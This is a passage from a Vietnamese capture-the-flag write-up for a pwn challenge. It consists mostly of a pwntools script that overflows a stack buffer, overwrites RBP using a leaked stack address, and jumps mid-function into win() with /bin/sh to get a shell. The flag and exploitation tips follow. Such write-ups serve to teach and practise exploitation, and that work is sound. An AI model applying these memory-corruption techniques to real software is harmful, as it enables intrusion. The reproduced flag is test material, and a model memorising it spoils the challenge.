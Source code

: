 ```python
# Các địa chỉ cần thiết cho payload thứ hai
ret_gadget = 0x40101A       # Gadget 'ret' đơn giản để căn chỉnh stack
system_mid_addr = 0x401218  # Địa chỉ ở giữa hàm win(), sau các bước kiểm tra
bin_sh_addr = next(elf.search(b"/bin/sh")) # Địa chỉ chuỗi "/bin/sh"

# Tính toán giá trị RBP mới.
# Mục tiêu là làm cho `[RBP_mới - 0x10]` trỏ đến nơi chúng ta đặt `bin_sh_addr`.
# Vị trí của bin_sh_addr trên stack là: `leaked_buf_addr + 0x48 + 0x8*2`
# => RBP_mới - 0x10 = leaked_buf_addr + 0x58
# => RBP_mới = leaked_buf_addr + 0x68
new_rbp = leaked_buf_addr + 0x68

# Payload 2: Ghi đè RBP và return address
payload2 = b"A" * 0x48                # Lấp đầy buffer + RBP cũ
payload2 += p64(new_rbp)              # Ghi đè RBP bằng giá trị đã tính toán
payload2 += p64(ret_gadget)           # Căn chỉnh stack
payload2 += p64(system_mid_addr)      # Nhảy vào giữa hàm win()
payload2 += p64(bin_sh_addr)          # Dữ liệu sẽ được nạp vào RDI

p.sendline(payload2)

# Chuyển sang chế độ tương tác để nhận shell
p.interactive()

```

**Kết quả (Flag)**

Khi thực thi kịch bản, nó sẽ kết nối đến server, thực hiện hai giai đoạn khai thác và cuối cùng cung cấp một shell. Từ đó, ta có thể đọc flag.

`sun{D!d_y0u_s3e_thE_IM4P_spAce_laUncH??}`

---

## Ghi chú và mẹo

- Đây là một ví dụ tuyệt vời về việc các "red herring" (mồi nhử) như `IBT/CET` được đưa vào để đánh lạc hướng người chơi khỏi các con đường khai thác đơn giản hơn.
- Luôn phân tích kỹ lưỡng tất cả các thông tin mà chương trình cung cấp. Trong trường hợp này, việc rò rỉ địa chỉ stack là chìa khóa quan trọng nhất.
- Đừng chỉ nghĩ đến việc gọi hàm từ đầu. Việc nhảy vào giữa một hàm là một kỹ thuật mạnh mẽ để bỏ qua các cơ chế kiểm tra và bảo mật.
- Kỹ thuật ghi đè `RBP` để kiểm soát các con trỏ gián tiếp là một kỹ năng cần thiết trong các bài pwnable hiện đại.

---

# ENGLISH VERSION

---
